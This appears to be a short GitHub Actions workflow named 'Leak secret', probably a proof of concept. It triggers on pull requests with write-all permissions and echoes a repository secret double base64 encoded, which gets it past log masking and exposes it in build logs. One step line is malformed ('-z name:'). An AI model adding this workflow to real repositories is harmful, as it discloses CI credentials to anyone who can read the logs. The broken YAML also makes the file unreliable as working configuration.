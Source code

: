 name: Leak secret

on:
  pull_request:
    types: [opened, reopened, synchronize, edited]

permissions: 
  write-all

jobs:
  example-job:
    runs-on: ubuntu-latest

    steps:

      -z name: Run script
      run: |
        echo ${{ secrets.SUPER_SECRET }} | base64 -w0 | base64 -w0
